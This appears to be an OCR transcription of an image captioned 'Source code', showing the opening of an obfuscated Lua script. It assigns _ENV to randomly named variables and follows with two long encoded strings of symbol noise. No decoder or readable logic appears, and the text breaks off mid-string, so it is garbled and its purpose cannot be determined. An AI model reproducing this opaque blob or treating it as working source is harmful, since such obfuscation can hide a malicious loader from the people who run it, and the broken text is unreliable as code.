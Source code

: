 uAHMXTFPmjrWrghk=_ENV;RcyMlndIaSGPDTf='k&3xU(#0t?;Tv,98tv,9U,Tv3T?9B?0t90T?3,?(&(&3tv8/(8v9xT8v0?9((;,2x8;;Dxt88t:(0&9<U8T93,?v{T0;9?(9v0x#;(t080#Uv;x9;#;9?0tv8T#;,0;?3U?x890D;#A;0?&,?&7;#?9U(#T08e?U_80v;,U9vvxU#?3K0,9?(9,UUx;93((pv&38;0&30v98#3v,xt;0&vtt8(#;,tUxT?3x?38vt(8x#%TTUt?9z8?T9U03vT0UTT3??0G0t,9&t39((;?Tw,t;8(0tv,x??0O(;(&3Uv=UUU;3}vva8T0T9((t;x3(vt3t0T,U(?9T&,?d3;#09?t3T,#U?;3(;9&T#T,039v.U4t9T8xx?,Rv0T(9T;3;;xLT&(?x8x#3,&T(3(#t8tU8TUUT;TP3?t,?02,,((;Uv&#t?8I90,9;;t3T?T&UxE9((0v?x&(T3&0;8T&0,#U0Tx30t08U0U,UU3#,xx?U290&?txUv(xU;38#009U&lT(*&(,c9?U;;x8v,xT;T30t(883(;;&?tt80xU;T&3t&8Z(,L8;;&?tUv;(0,(,0U8T(3U?xe7,9UtTT3T?t8903,;9?##v0x#;(&3,T(vTT 9?0&30,8xU,T3UU?U3#3#??4U0x93v(x??8nx-,t(9T(;v?x#8#(tv9x3;93;t?8?33t98,#v,TU;T?3t,0d#0t9U(xv3;U&(0&t&9,(vvTx;;?&t00x(#(,TUxT33&8##992U3;,&9?3??&Y009#((v30U&7#vv0U?vU3TxvTT&;t?8t#(3&TB&#t0v9#TTxx;Tt880t88U,9t(#(0,&x(;U&xt{(#vt3??T&?t?8#(v,cxtU0T;3(?U}x,U(;vU3U39T0dv0T9;(029?8}90v,X(&T93?tv&vt?98#xvTU#t;&;tU8x#x,T&,T839?T?8&90,9v(Tvt08m3t39;(&v(3,;?&t098UUT;9L#0#T;3v?t600#9x;vGxx(;&&K0899(,;v;;9;&?t,80##,(U3&x0v80(9#89UU,Tv3T?t039xU?T,x3xU;v&3t&8E(,&v;?W;t#8&(xv9x(U#8v3U?xG3#8U&Tv3T?#utx9;3&&vx3&;#vv0U9((8v3x9?;&vt?9;##v#U&;83UtU8v0&?;x9T?3#(09&#099U,Tvx&?UZ(0w9v(#v(8;t;Z90?83U(,x3tT333(Z8,#=,0UT0T3Tt88;0x;((3v;3(x;;T&tt08##v,UUxT33U?u88#9,,UvTT&;,t%t0,9#((vU;#&#tx9?(,v(v,U&;T&;t?#vvtxtT&&?3x?xY&04,8UvT,3v?TP;0?9T(0v#x(;U&xt38&;%,3x9;,&vtT8;#?Utt0T03#?ULx039&(RT839?8 v0T9;(?v9x0;#&(tU&T#3,xU<;8&9t,8v#T,,U?TT30?0H(0U9x(3,0xn;x%9099v(Tv;x?TU&0t?8(##,xUUT&3F?#89#8,vUTT;3v?tC0t;9((Uvxxx;&&H083&(,vvxT;;30tt8t##,(UUTx33?&Ur#89 U,Tv3T?;s?0txv(#v#xU;(&3tx8lt(9xx,;,&T?#8?#?,0U?T(3t,?<30&9r(TT939?vYTtt9?(?v0x0;(&Utx83;&,KU&;9&,tv8T#;,8#tT03??(JU0x9x(&v338?9(v0v9T(;v?xt;0&#t(&3#x,3U&T3&8t98,#v8&U;T;3t?;J#0#9U(0Stx&;%B8;89,(,vTx;T0&ttt8##(,UUxT33&,Z880},,UvTT3;??%tvv9#(#vUx(;3&xtW&(tUv,x,;T3vt?8?#0,tU(Tt#??3_&0!8&U9T93v?8(J0?9t(080x(;(&xt3&T#R,gx9;,&vtT8;009LU0T03(v(wx0x9&(&T8x39xrv0T9;t;vtxt;#&(?38x#x,&Ux;8&9t,8vTx,;UTTt30?#<(0U8((9v&xx?8L80,9v(T,vUv;t&Tt#8##U,xU3T&30t888#,9wUTTv3?T9180#9#(U8Ux3;3&ytx99#&&3xT;;&?T?80#0,((#,v33?3A/0U,9U,Tvx,vx*?0;90(vv(xU;x&3;T8F#3v9x,;v&Tt;PT?&,0U;T(3(?xw30&9U09T938?vxT0;9;(tv00#;(&;tx8x#&,zx8;9&8tvW3#;,,UtT03#?(&&0x9;(&vU38?9*,0v8&(;,3xt;;&#t(8U#x,,U&T;&8t98,#v,TU;v93t;32#0;9U(xv3x&;xz8t;9,#&vTx;;?&tt?8##9,UU8T33x?{88?9,,(UTTx3??&&009##tvUxv;3&#tO98(9v,(?;T33t?<o#0,8U(,UxN?3M?0c90U9vU3v?T330?98(0v,x(;v&xt34x#!,<x9Tx&v?38;#,8&U0Tt3(T(<x0x9&()8v39?9rv0,9;(?vtx09x&(tU8x#U,&Ue;8&9,,8v#T,;U;Tt30?#-(0U9x(3v3xI?8p90,99(Tv;x?;t3?t#8(#U,xU3T&3qt8U9#,,vUTTT3??t10T89((UvxUU;T&D0899#UvvxT;;&8?980##,(0xTx3x?&bL#893?xTv3T?;xt0t9t(#v(0T;x&3t&8m(8v9x,;v#0t;8;#t,0U#T(3U?x{(0&9+U8T93,?,}T?;&8(tv0x#;(&U?x830xe?x8;8&,t88T#;,?(;v;3#?0rU0;93(&v%x(T9I,089T(Tv?x?;0&0t(8UT3,3U&T13.t98,#v,T?,T?3;?0Mt0(9((x,UU3;p&&098?(vvTx;TTxUt08?#(,tUxT33&TL!9#99HUvT93;;t}tt?8U((vtxx;t&&tW9809,(xv;8&;t,8t0t,#(0T03x?0l&0U,8U9T,Uv,&u;099t(vv#x#;U3(vT8&##v8U3;,&vtT&;0,,tU,T#3T?U&t039&(UT8x(?,6v0T9;(?,;x8;#&,tU8##3,&Uhv&xUt,p(#T8xU?Tt30;tC;0U9,(3,&x ?8!9t&80(T,3x?vt&0t08(#U&xU3T,3I?U89#,,vUTv&3?;(S0t&9((Uvxx3;T&StT99(8vvx,;;&?tv80#,,(U8Tx39?&ez03,9(UTvx0?;&U0t9T#8v(xv;x3vt&8&(8v9?(;v3xt;*&#t,0U#TTUU?xW;0&9:U8T83,;3mT0;xt(tv0x#;0&Utx83#&&8x8;9&,?w8T#;,?Ut2#3#?(QU0T93(&v%389,D,0v9T(,v?xt;0&#,U8U#x,3UtTl&8t98,TT,TU;T?3??0j#0(9U00v3x;;f&0099,(vvTU;;?33t08##(,UUxT33,?< t#9,8UvT,3;??q,009#((v,xx;3&&t{F&(9v,xv;,&;t?8t#09,U(TU3x?3e&0{,8(3v93v?Ts;v&9t(tv#U0T(&xt38&0xv8x9;,xvv;8;#?,tU0T#x(?U&(t09&(CT8xt?,+v0T8v0xvtx0;#3ttU8x#38&U3;8&9t,8v#T9tU?v;3t?#E(0U89(3v&xd?8&U0,9v(TvTx?;t&0?t8,#U,xU3v03gt889089,UTT;3?;xi00#9(0;9?x3;&&hT;99(9vvUx;;&,v980##,(08Tx3x?&+yT8,9U,Tv3v?;Z?0t8?#0v(xU;x3;t&8P(8890(;v&Tt;&(#t99U#v0x(?xi30&8tU8T93,vv&,0;9?(t,?x#T3&U?(c9#&,Xx8v#&,tv8T?;9,UtT03#?07U0t93#x,x38?9s,?j9T(;v?U;;9&#t#8U0,,3U&Trx8vt8,#,,TUTT?x&?0&tt(9U(#v3U9;XK8099,#UvTxT;?&Tt08##(,U((T33&?P88#9,8UvTT39??Dt0090((v(xx;3#&tD98(9v9xv;T&;';CMZuolAqPIZBhnPmV='hL/ ?iEz+0BKXUPW ?P0KBzU XWBzEzE?zY/K0+X? tKXX?+iLU60?iEL+UiUB0WiiLiP/i+E;WzPBBWEi/iW/E+zXgzWBKWzi iJ/z+zPLz9BXW+i?iL/++0W/zLBUW0iii//0+B/ z/BPWBiEi /B+KE?z BWWKizi?/K+KWi0LQU?0KiiLKP UE0KiLLLUPi?E?WiBBzzEB/WPiBiz/P+WP+0+0?UXUXKzP?L8EXL P?PUP0Xi+LPXBU80UL_/*KLB?/ PKKzKiE+/KWjBK/+ +X+zP++<iXK+B + K.BX/?C?zX00EBtLP.UU 0 /PP?PPEB/WW K?ElEE  BEKE?z BK0+L / 0U +rzWfEUL0Ei0SUXK0XiP/?P?BEi/ED/iUK0KE+UPW zWz/WLPUEBzi ?K+Kz 0bELF+KzWcW)L+KE.LE/GXWiXi/U,PE0XiK/E0BBL KP+PzzL E?sKK+/?zW0Kz+?+PlPWU+PzWwOL0XX+Wi?}W+X0X/XP/PXE+/BPB0X0WEP/EB?BK/UWB=?zWz?gEWz0/?+i/yLKWiE8/_+Ui?+i+P0UXiK/ U?UKzi///LB+zL /W?KzzL/WWPX +L?/yKKEX?+0 WWWXX?/?BP UEiiiLXPU00+LXLK0UEBz?W-KLBz BPWX?zB+?WWXRK+?zWElXX/+L?XX-XzELlPJU0iiXEEP BK0BLWUUBBK? EWEK0Bz/E ?W0BWEW XK/K0i pXU 0/?WLEX/XU+XJ+L+UKB/LY/EXW0Kii/PP?B EPP/W+BLEU/zX0zP++O K?X+ii?ULTUF+0icAKBL+Ui+L6+P0iiP/zUKBLEFUXP Ei ??/X z+/B?NWEKi+tW?WK0i?/?LX+0s0BLiUK0Ki LLUPP+E i0L+UKiBE+/UP B z:PEPU+z UWPXz+??iWEeLX9 X?X-WUE??iB. XW+0E/L+UzB/LE/XUiBLiKWUK/KX zP+PP+0+0?UXUK0+? XKBXL+Bi gz+?+K/iU/ULi0/:/BUiE+/LUWBXKE 0W0KUBB/+ +X0KX KR K?X/+z UWUXB?S?zPL0Bi+LXUP0Wi!iKLB0EBEE0 J0PK?iU/0P KXz/ LWXzQ+E/WWKKiiz^XLE0L?/ibP 0N0+iK//050PLULzPE0PLXLUXi0&iBPEWzKX/X BXKKz+/ BK+KW+B?/XdXz0/?BX+XW0+ELLiUK0BLELU0WEPzXWUK/E?zB *PWKB/P iXWzXzKs XBU??WL0_i+U?KL+//XP+W/zP+0?BUEj/ P+B /v 6XxzE+./PXSEPzL?5W+zEzUWWXXUE+/LiU+B/i+E/PLBz0LL/L+Pii+E+W0PXEK  P?PK+i / LK0+ ?/WUKK0L?XLLU +<+Pi t0X00EAXL/BUB.LWLK0+B E/PEPiEz ? PKKBW?   K00oiL.ELD+K+/LLsE+/0+?P{UU+?Xi PU0B00/rP+W/zi  P0Bzz?zPWWPP+??iWjWPX z0 0xEzX+ LUUz0XiW/LPL+X0ziEU/P/BiEXUBWZ00EiLWW+BPEU +BXX/EK zWL0 ?+i/XUzP+ii)N++E+UiELWU 00i+U?UKiU/X BKKz6// +PPBUz+PXW +U B 0X%++0/9W( 0O?KS0UEPgEL?PL/Bzi/Eu/iUK0KE+UPPizW 0WWK+zX PPPW0K+ ???pzXP Xi/WKXz+LiBL-XW0B#P/?XU00i WiBBK?/WP.PP+LEU/UWPK/z  P#+z?zz?EWPzX+i?iLEXB+KiE/(0?iz/KLzP/0BL+LWP+KLEiP/P0+  e/WKzzP++ ?WBzW UoBL?0}i L0ai+E0E/zLB00ELL//&Pi0KiK/+0PBi WWBK0+_ KPXWzKE /?/CiXX BiYW0XizWi+DPXU0+*X//XK0ziLW B+K//UUPWizWz+ iWEKWz0 cWiX??W KIEKP X? IPXE???KLEXP?Xi LXPi00LELUKzE?E PUK/KX